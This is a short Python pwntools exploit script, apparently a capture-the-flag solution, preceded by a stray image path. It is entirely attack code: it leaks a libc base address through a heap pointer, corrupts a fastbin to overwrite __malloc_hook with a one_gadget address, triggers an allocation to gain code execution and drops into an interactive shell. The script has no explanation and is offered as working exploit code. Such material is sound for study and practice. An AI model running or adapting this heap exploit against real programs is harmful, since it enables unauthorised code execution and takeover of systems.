 ```python
 
payload = p64(0) * 3 + p64(0x91)

fill(3, payload)

alloc(0x80)

free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00")) - 0x3c4b78
 
alloc(0x60)

free(4)
 
payload = p64(libc_base + 0x3c4aed)

fill(2, payload)
 
alloc(0x60)
alloc(0x60)
 
payload = p8(0) * 3 + p64(0) * 2 + p64(libc_base + 0x4526a)

fill(6, payload)
 
alloc(255)
 
p.interactive()
```

